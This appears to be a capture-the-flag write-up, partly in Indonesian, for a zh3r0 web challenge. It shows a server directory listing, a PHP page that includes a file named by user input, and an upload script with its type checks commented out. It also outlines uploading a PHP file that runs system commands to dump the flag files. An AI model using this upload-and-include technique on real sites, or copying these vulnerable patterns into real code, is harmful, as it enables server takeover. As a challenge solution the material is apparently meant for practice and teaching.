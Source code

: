 ```
- View Source -> <!-- get the 'page' :eyes: --> (index.php bakal nerima $_GET['page'])
- http://web.zh3r0.ml:7777/robots.txt -> DUMB: this is not a good place the flag is the flag :P 
- Cek http://web.zh3r0.ml:7777/index.php?page=flag -> View Source -> <!-- https://www.youtube.com/watch?v=0ZfZj2bn_xg --> (Youtube berjudul Upload)
- Cek http://web.zh3r0.ml:7777/index.php?page=upload -> Bisa upload php -> Eksekusi system('ls') -> payload masuk, uploadan kita bakalan ada di http://web.zh3r0.ml:7777/index.php?page=NAMAUPLOADANKITA (tanpa .php)
- Masukin payload buat cat semua file di semua direktori -> dapet flag, cek di bawah -> zh3r0{h3y_d1d_y0u_upl04d_php_c0rr3ct1y???_84651320}
```
ls -la:

total 220
drwxr-xr-x    1 nginx    nginx         4096 Jun 15 14:36 .
drwxr-xr-x    1 root     root          4096 Apr 20 15:04 ..
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 987l,oi67mn5rbheysxtys4
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 ;sdojhghisoojjtml;'Zd
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 ;ylfdtkjhgrxymrndgb
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 aw,64mtzsdbrfgxmnjhbf
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 d,rtnfhbgdtyjkxdhg
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 dymnjxtgsdhxfhdhfg
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 e.,58mjnu6jtrhujdf.,lkndhbgd5veytdr
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 eslrkmtdnhgserkjhg
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 fdhgsjhahaehhfdagrash
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 gsuidhlibudbwlonmgitssgdfbh
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 gxdsfrhgvghjghryftyjhr
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 hnrdtskhginbdhmkrmoyhbemgtr
-rw-r--r--    1 nginx    nginx          260 May 26 14:47 index.php
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 mzsanbvcmzrsetbv
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 ogiuthervsoilmnyjk,btuimjntebu
-rw-r--r--    1 nginx    nginx         1490 May 26 20:19 progress.php
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 rdfxcvghbjnkml,;.kfjdtuhrsgt
-rw-r--r--    1 nginx    nginx           55 Jun 15 14:34 robots.txt
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 se.,5m7nrybhdflkjhsbgrttds
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 se4juhdgfrekjhg
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 sfjutsyjkneatghdjhgrsh
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 soyertidhbvghbrhjnjkheg
drwxr-xr-x    1 nginx    nginx         4096 Jun 17 05:56 sshsfgsbdf
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 st';ojpnbvm,ijnvkwoegf[mlyhj
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 t798,kirnmmy5h
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 ymskmjhgzkmjzbxs
drwxr-xr-x    1 nginx    nginx         4096 Jun  5 13:13 yugdbshvdsdgjuhsdzgerztrd
```

```
Index.php:

<pre><?php
    error_reporting(0);
    $file = isset($_GET['page']) ? $_GET['page'] : NULL;
    if(isset($file))
    {
        $loc ="./sshsfgsbdf/$file.php";
        include($loc);
    }
    else
    {
        include("./sshsfgsbdf/home.php");
    }
?>
```

```
Upload.php:

$target_dir = "sshsfgsbdf/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
/*
// Check if image file is a actual image or fake image
if(isset($_POST["submit"])) {
  $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
  if($check !== false) {
    echo "File is an image - " . $check["mime"] . ".";
    $uploadOk = 1;
  } else {
    echo "File is not an image.";
    $uploadOk = 0;
  }
}
*/
// Check if file already exists
if (file_exists($target_file)) {
  echo "Sorry, file already exists.";
  $uploadOk = 0;
}

// Check file size
if ($_FILES["fileToUpload"]["size"] > 500000) {
  echo "Sorry, your file is too large.";
  $uploadOk = 0;
}

// Allow certain file formats
/*
if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg"
&& $imageFileType != "gif" ) {
  echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
  $uploadOk = 0;
}
*/
// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
  echo "Sorry, your file was not uploaded.";
// if everything is ok, try to upload file
} else {
  if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
  } else {
    echo "Sorry, there was an error uploading your file.";
  }
}
```

```
<pre><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?>
<br>
<a href="./">continue</a>DUMB: this is not a good place the flag is the flag :P
<?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?>?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="zh3r0{h3y_d1d_y0u_upl04d_php_c0rr3ct1y???_84651320}";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?><?php
    $flag="<b><font size=26>Not that easy :P</font></b><br><img src='https://media.giphy.com/media/p0RDMJGgMXF96/giphy.gif' />";
?>
```
